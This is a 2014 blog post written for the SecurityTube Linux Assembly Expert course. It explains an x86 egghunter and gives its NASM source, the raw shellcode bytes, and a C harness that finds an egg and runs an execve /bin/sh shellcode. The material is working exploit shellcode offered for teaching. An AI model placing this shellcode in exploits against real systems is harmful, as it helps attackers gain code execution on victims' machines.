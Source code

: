 ```yaml
---
comments: true
date: 2014-04-09
layout: blog
title: 'SLAE Assignment 3: EggHunter Demo'
category: blog
tags: [asm-x86,nasm,slae]
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:

```c    
unsigned char egghunter[] = "egghunter shellcode"
unsigned char shellcode[] = \
"egg"
"egg"
"execve /bin/sh shellcode"

int main(void){
    run(egghunter);
    return 0;
}
```

This is the complete shellcode:

```nasm    
;Description:	Assignment #3 (EggHunter, 34 bytes)
;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
;Author: 		Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:		526

global _start
section .text
_start:
	fldz
	fstenv [esp-0xc]
	pop eax
lp1:
	inc eax
	xor ebx,ebx
	mov cl,2
lp2:
	cmp dword [eax+ebx],0xddccbbaa
	jne lp1
	add ebx,4	;the egg must be found twice so i check eax and eax+4
	dec cl		;this is a counter to track how many times the egg has been found
	jnz lp2
	lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
	jmp eax
```

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

```c    
/* Description:	EggHunter(execve(/bin/sh))
 * Author:	Paolo Stivanin <https://github.com/polslinux>
 * SLAE ID:	526
 */

#include <stdio.h>
#include <string.h>

unsigned char eggHunter[] = \
"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

unsigned char execveShellcode[] = \
"\xaa\xbb\xcc\xdd" //egg
"\xaa\xbb\xcc\xdd" //egg
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

int main(void){
	printf("EggHunter: %zu\n", strlen(eggHunter));
	printf("Shellcode: %zu\n", strlen(execveShellcode));
	int (*ret)() = (int(*)())eggHunter;
	ret();
	return 0;
}
```

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
